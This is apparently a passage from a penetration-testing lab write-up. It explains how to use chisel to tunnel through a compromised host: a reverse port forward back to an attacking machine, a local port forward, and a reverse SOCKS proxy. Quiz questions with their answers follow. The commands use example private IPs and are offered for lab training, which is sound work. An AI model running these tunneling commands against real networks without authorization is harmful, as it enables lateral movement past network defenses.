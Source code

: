 - `LISTEN_PORT:` this is the port that we started the chisel server on.

- `LOCAL_PORT:` this is the port we wish to open on our own attacking machine to link with the desired target port

**Example:**

To use an old example, let's assume that our own IP is 172.16.0.20, the compromised server's IP is 172.16.0.5, and our target is port 22 on 172.16.0.10. The syntax for forwarding 172.16.0.10:22 back to port 2222 on our attacking machine would be as follows:

```
$ ./chisel client 172.16.0.20:1337 R:2222:172.16.0.10:22 &
```

Connecting back to our attacking machine, functioning as a chisel server started with:

```
$ ./chisel server -p 1337 --reverse & 
```

### Method Local Port Forword:

As with SSH, a local port forward is where we connect from our own attacking machine to a chisel server listening on a compromised target.

- On the compromised target we set up a chisel server:

```
$ ./chisel server -p LISTEN_PORT
```

We now connect to this from our attacking machine like so:

```
$ ./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT
```

Example: 

For example, to connect to 172.16.0.5:8000 (the compromised host running a chisel server), forwarding our local port 2222 to 172.16.0.10:22 (our intended target), we could use:

```
$ ./chisel client 172.16.0.5:8000 2222:172.16.0.10:22
```
```
Q1: What command would you use to start a chisel server for a reverse connection on your attacking machine?

Use port 4242 for the listener and do not background the process.
A: ./chisel server -p 4242 --reverse
```
**hint: command: ./chisel server -p LISTEN_PORT --reverse &**

```
Q2: What command would you use to connect back to this server with a SOCKS proxy from a compromised host, assuming your own IP is 172.16.0.200 and backgrounding the process?
A: ./chisel client 172.16.0.200:4242 R:socks &
```
**hint command: ./chisel client ATTACKING_IP:LISTEN_PORT R:socks &**
